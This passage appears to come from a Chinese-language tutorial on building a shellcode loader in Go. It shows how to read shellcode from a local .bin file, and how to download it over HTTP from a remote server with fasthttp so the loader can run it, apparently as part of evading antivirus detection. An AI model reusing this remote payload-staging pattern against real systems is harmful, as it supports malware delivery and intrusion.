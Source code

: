 > 注：绿色数字为正常，红色为异常，白色是其他

## Shellcode 不同的存储方式

### 本地存储

只需要改变一行代码。运行时必须有 Shellcode 文件，可以是绝对路径或者相对的路径

```plain
shellcode, _ := os.ReadFile("./test2.bin")
```

[![](assets/1707954174-b3a4c222e6a683dd5142db196f58c4b0.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20240205003608-7fc2a8fe-c37b-1.gif)

## 远程存储

需要将文件存储到远程服务器，以 python -m http.server 80 来举例  
首先引入库、增加函数

```plain
"github.com/valyala/fasthttp"


func fetchShellcode() []byte {

    url := "http://localhost/test.bin"

    _, body, _ := fasthttp.Get(nil, url)

    return body
}
```

最后将 Shellcode 处改为函数调用

```plain
shellcode := fetchShellcode()
```
